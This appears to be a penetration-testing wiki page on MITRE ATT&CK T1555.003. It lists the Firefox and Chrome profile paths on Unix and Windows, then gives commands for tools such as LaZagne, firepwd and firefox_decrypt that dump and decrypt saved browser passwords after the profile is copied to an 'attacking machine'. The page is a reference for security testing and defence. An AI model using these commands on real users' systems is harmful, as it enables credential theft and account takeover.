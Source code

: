 ```yaml
---
description: >-
  MITRE ATT&CK™  Credentials from Password Stores: Credentials from Web
  Browsers  - Technique T1555.003
---
```


# Credentials from Web Browsers

## Theory

Adversaries may acquire credentials from web browsers by reading files specific to the target browser.[\[1\]](https://blog.talosintelligence.com/2018/02/olympic-destroyer.html) Web browsers commonly save credentials such as website usernames and passwords so that they do not need to be entered manually in the future. Web browsers typically store the credentials in an encrypted format within a credential store; however, methods exist to extract plaintext credentials from web browsers.

## Practice

### Firefox

{% tabs %}
{% tab title="UNIX-like" %}
On UNIX-type systems, stored credentials are kept in firefox profile folders such as :

```
/home/<Username>/.mozilla/firefox/xxxx.default
```

We may download the entire `~/.mozilla/firefox` folder to our attacking machine and use [firefox\_decrypt](https://github.com/unode/firefox\_decrypt) to  decrypt passwords.

```bash
python3 firefox_decrypt.py <Victime_ProfileFolder>
```
{% endtab %}

{% tab title="Windows" %}
On Windows, stored credentials are kept in firefox profile folders such as :

```
C:\Users\<Username>\AppData\Roaming\Mozilla\Firefox\Profiles\xxxx.default
```

#### Firepwd

We may download the entire `Profiles` folder to our attacking machine and use [firepwd](https://github.com/lclevy/firepwd) to  decrypt passwords.

```bash
# Decrypt
python firepwd.py -d <Victime_ProfileFolder>

# Provide user's password (if secrests are encrypted using DPAPI)
python firepwd.py -d <Victime_ProfileFolder> -p <Password>
```

#### LaZagne

The [LaZagne](https://github.com/AlessandroZ/LaZagne) (Python) project is a go-to reference from browser credentials dumping (among other awesome dumping features).

```powershell
PS> laZagne.exe browsers [-password P@ssword!]
```

#### LaZagneForensic

Alternatively, the [LaZagneForensic](https://github.com/AlessandroZ/LaZagneForensic) (Python) project can be used to decrypt passwords from a linux hosst, using a mounted file system (/tmp/disk). &#x20;

```
python laZagneForensic.py browsers -local /tmp/disk -password 'Password'
```
{% endtab %}
{% endtabs %}

### Google Chrome

{% tabs %}
{% tab title="UNIX-like" %}
On UNIX-type systems, stored credentials are kept in Google Chrome profile folders such as :

```
/home/<Username>/.config/google-chrome/default
```

We may download the entire `Default` folder to our attacking machine and use [chrome\_password\_grabber](https://github.com/priyankchheda/chrome\_password\_grabber) to  decrypt passwords. Not that the default script profile folder path should be edited.&#x20;

```bash
python chrome.py
```
{% endtab %}

{% tab title="Windows" %}
On Windows, stored credentials are kept in Google Chrome profile folders such as :

```
C:\Users\<Username>\AppData\Local\Google\Chrome\User Data\Default
```

#### LaZagne

The [LaZagne](https://github.com/AlessandroZ/LaZagne) (Python) project is a go-to reference from browser credentials dumping (among other awesome dumping features).

```powershell
PS> laZagne.exe browsers -password P@ssword!
```

#### Decrypt-Chrome-Passwords

We may use [decrypt-chrome-passwords](https://github.com/ohyicong/decrypt-chrome-passwords/tree/main) to  decrypt passwords.

```powershell
PS> python decrypt_chrome_password.py
```

#### Chrome-Decrypter

[chrome-decrypter](https://github.com/byt3bl33d3r/chrome-decrypter) can also be used as follows.

```powershell
PS> .\chrome_decrypt.exe
```

#### LaZagneForensic

Alternatively, the [LaZagneForensic](https://github.com/AlessandroZ/LaZagneForensic) (Python) project can be used to decrypt passwords from a linux hosst, using a mounted file system (/tmp/disk). &#x20;

```
python laZagneForensic.py browsers -local /tmp/disk -password 'Password'
```
{% endtab %}
{% endtabs %}
